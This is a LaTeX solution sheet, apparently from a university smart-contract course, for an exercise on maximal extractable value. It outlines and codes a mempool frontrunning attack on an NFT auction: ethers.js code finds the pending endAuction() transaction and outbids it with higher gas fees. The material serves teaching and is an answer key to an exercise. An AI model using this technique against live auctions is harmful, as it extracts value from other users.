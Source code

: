 \documentclass[12pt]{article}
\title{Smart Contracts Exercise 08: \\ Maximal Extractable Value --- Solution}
\author{}
\date{}
\begin{document}
\maketitle

\noindent
The solution for Exercise 08: Maximal Extractable Value can be found in this \href{https://github.com/radovluk/Smart-Contract-Exercise/tree/main/08-Maximal-Extractable-Value/solution/solution-code}{GitHub repository}.

\section*{Solution to Task 1: NFT Auction Frontrunning}

The solution employs the following strategy:

\begin{enumerate}
\item Monitor the mempool for the \texttt{endAuction()} transaction
\item Extract the gas parameters from the pending transaction
\item Submit our bid with higher gas parameters to ensure it gets mined first
\item Wait for our bid and the \texttt{endAuction()} transaction to be mined
\item Claim the NFT
\end{enumerate}

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// See the mempool
pendingBlock = await network.provider.send("eth_getBlockByNumber", [
  "pending",
  false,
]);

// Use our explorer function to show detailed transaction info
targetTx = await exploreMempoolTransactions(
  pendingBlock.transactions,
  auction,
  "endAuction"
);
const frontrunTx = {
  to: auction.target,
  data: auction.interface.encodeFunctionData("bid"),
  value: ethers.parseEther("1.5") + 1n, // Bid 1.5 ETH + 1 wei
  type: 2, // EIP-1559 transaction
  maxPriorityFeePerGas: targetTx.maxPriorityFeePerGas + 1000000000n, // +1 Gwei
  maxFeePerGas: targetTx.maxFeePerGas + 1000000000n, // +1 Gwei
  gasLimit: 500000, // Ensure enough gas is provided
};

// Send our frontrunning transaction
await player.sendTransaction(frontrunTx);
console.log("Player sent frontrunning transaction");
\end{verbatim}
\end{minipage}
\end{document}
